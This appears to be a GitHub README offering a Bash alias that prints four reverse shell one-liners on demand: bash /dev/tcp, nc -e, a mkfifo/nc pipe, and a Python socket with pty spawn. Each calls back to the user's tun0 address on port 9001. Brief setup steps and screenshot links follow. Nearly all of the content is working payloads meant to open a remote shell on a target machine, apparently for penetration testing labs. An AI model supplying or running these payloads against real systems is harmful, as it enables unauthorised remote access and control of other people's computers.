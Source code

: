 # Set a Bash Alias for Common Reverse Shell's
```bash
alias reverse="arg1=\$(ip -f inet addr show tun0 | grep -Po 'inet \K[\d.]+'); printf \"bash -i >& /dev/tcp/\$arg1/9001 0>&1\"; printf \"\n\nnc -e /bin/sh \$arg1 9001\"; printf \"\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \$arg1 9001 >/tmp/f\";printf \"\n\npython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"\$arg1\\\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\n\n\""
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse</b>"

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/4gWwukP.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/SSu6L0r.png">
<br>
<br>
<b>Please feel free to modify this!</b>
<br>
<center>Special thanks to https://github.com/MuirlandOracle for the quirky Bash help! </center> 
